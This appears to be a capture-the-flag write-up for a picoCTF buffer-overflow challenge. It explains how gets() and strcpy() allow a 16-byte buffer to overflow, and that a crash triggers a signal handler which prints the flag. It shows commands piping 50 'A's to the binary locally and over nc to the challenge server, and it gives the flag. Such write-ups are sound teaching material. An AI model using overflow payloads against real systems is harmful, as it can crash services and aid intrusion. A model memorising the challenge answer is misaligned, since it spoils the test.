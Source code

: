**Key Observations:**
1. Signal handler prints the flag when SIGSEGV occurs.
2. `strcpy(buf2, input)` - copies without bounds checking into a 16-byte buffer.
3. `gets(buf1)` - reads unlimited input without bounds checking.
4. The signal handler is registered to catch segmentation faults.

### Step 2: Understanding the Exploitation Strategy

The attack vector is clear: overflow `buf2` via `strcpy` using input from `gets`. Overwrite the return address or nearby control data to cause a crash, triggering the SIGSEGV handler which prints the flag.

### Steps performed

1. Compiled/tested locally with protections disabled if necessary.
2. Created a test flag: `echo "picoCTF{test_flag_buffer_overflow_works}" > flag.txt`.
3. Sent a payload of repeated 'A's to overflow the buffer and trigger SIGSEGV.

Example commands used:

```bash
# Make runnable
chmod +x vuln
# Local test
python3 -c "print('A'*50)" | ./vuln
# Remote test
python3 -c "print('A'*50)" | nc saturn.picoctf.net 65362
```

### Example output (simulated / local):

```
Input: picoCTF{test_flag_buffer_overflow_works}
```

## Flag (example remote result):

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:

- Buffer Overflow basics and stack layout.
- Dangerous C functions: `gets()`, `strcpy()`.
- Signal handlers and using a crash to print sensitive data.
- Using WSL for Linux tooling on Windows.

## Notes:

- Initially attempted different payload sizes; 50 'A's was sufficient.
- Local testing required creating a fake `flag.txt` because the remote server hosts the real flag.

## Resources:
